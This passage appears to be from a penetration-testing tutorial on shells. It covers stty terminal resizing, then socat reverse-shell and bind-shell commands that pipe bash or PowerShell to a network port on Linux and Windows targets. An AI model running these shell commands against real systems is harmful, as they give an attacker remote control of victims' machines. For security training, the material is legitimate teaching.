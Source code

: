 `stty rows <number>`  

and

`stty cols <number>`  

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

## Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:  

`socat TCP-L:<port> -`  

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`  

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.  

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`  

## Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`  

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`  

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
